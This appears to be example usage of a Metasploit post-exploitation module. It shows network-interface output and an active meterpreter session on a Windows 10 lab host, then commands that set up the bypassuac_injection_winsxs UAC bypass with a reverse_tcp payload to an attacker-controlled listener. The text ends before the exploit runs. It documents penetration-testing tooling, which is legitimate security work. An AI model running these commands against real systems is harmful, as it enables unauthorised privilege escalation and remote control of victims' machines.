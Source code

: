 ```

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface  2
============
Name         : Teredo Tunneling Pseudo-Interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : 2001:0:4137:9e76:38b8:1e49:3f57:795f
IPv6 Netmask : ffff:ffff:ffff:ffff::
IPv6 Address : fe80::38b8:1e49:3f57:795f
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  3
============
Name         : Intel(R) 82574L Gigabit Network Connection
Hardware MAC : 00:0c:29:73:25:67
MTU          : 1500
IPv4 Address : <Win10x86_IP>
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::cc97:6548:c10a:f034
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  6
============
Name         : Microsoft ISATAP Adapter #2
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:c0a8:86a0
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

> sessions -l

Active sessions
===============

  Id  Type                     Information                            Connection
  --  ----                     -----------                            ----------
  1   meterpreter x86/windows  WIN10X86-1511\msfuser @ WIN10X86-1511  <MSF_IP>:30009 -> <Win10x86_IP>:50041 (<Win10x86_IP>)

> use exploit/windows/local/bypassuac_injection_winsxs
> set session 1
session => 1
> set target 0
target => 0
> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
> set lhost <MSF_IP>
lhost => <MSF_IP>
> set lport 30010
lport => 30010
```